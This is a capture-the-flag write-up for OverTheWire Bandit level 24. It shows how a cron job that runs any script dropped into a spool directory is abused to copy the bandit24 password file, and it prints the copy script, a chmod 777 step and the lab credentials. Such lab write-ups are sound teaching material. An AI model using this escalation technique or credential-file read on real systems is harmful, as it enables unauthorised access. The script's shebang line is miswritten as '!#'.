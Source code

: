 Level #24 Check command being executed by cron then write a bash script to retrieve bandit24 password

- Server: bandit.labs.overthewire.org
- User: bandit23
- Password: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

ssh bandit23@bandit.labs.overthewire.org -p 2220
//the cronjob being executed was at /etc/cron.d/cronjob_bandit24
//this cronjob executed every minute the bash script at /usr/bin/cronjob_bandit24.sh
//the main takeaway from bash script is that it looked into /var/spool/bandit24/foo folder
//and it executed any script that it encountered with bandit24 user permissions
//taking advantage of the bandit24 permissions we copied it's password file from /etc/bandit_pass/bandit24
//into /tmp/bandit24/pass

//script for password copy
!#/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/bandit24/pass


//the previous script was copied from /tmp/bandit/script.sh into /var/spool/bandit24/foo/script.sh
//and executed by the cron


//as a prerequisite it was needed to change /tmp/bandit24 folder permissions so that anyone could wrx
chmod 777 -R /tmp/bandit24


bandit24 user password: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
